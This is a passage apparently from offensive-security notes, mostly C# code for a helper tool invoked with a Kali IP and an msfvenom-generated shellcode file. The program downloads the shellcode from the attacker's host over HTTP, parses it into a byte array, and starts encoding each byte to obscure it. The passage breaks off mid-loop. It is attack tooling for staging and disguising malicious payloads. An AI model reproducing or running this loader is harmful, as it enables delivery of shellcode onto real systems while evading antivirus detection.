```csharp
            }
            Console.WriteLine("The payload is: " + hex.ToString());
        }
    }
}
```

#### C Sharp

`helper2.exe <Kali IP> <msfvenom-generated csharp shellcode file>`

```csharp
using System;
using System.Text;
using System.Net.Http;
using System.Text.RegularExpressions;

namespace Helper
{
    class Program
    {
        static void Main(string[] args)
        {
            // Check if a URL was provided
            if (args.Length != 2)
            {
                Console.WriteLine("Please provide the IP and filename as command-line arguments.");
                return;
            }

            string url = "http://" + args[0] + "/" + args[1];

            try
            {
                using (HttpClient client = new HttpClient())
                {
                    // Download the file content as a string directly into memory
                    string declaration = client.GetStringAsync(url).Result; // Blocking call
                    declaration = declaration.Trim();

                    // Use a regex to extract the byte values
                    //var match = Regex.Match(declaration, @"new byte\[\d+\] \{(.*?)\};");
                    var match = Regex.Match(declaration, @"new byte\[\d+\] \{(.*?)\};", RegexOptions.Singleline);

                    if (match.Success)
                    {
                        string byteValues = match.Groups[1].Value;
                        string[] hexArray = byteValues.Split(',');

                        // Create the byte array with the dynamic size based on the number of hex values
                        byte[] buf = new byte[hexArray.Length];

                        for (int i = 0; i < hexArray.Length; i++)
                        {
                            // Convert each hex string to a byte
                            buf[i] = Convert.ToByte(hexArray[i].Trim(), 16);
                        }

                        byte[] encoded = new byte[buf.Length];
                        for (int i = 0; i < buf.Length; i++)
                        {
                            encoded[i] = (byte)(((uint)buf[i] + 2) & 0xFF);
```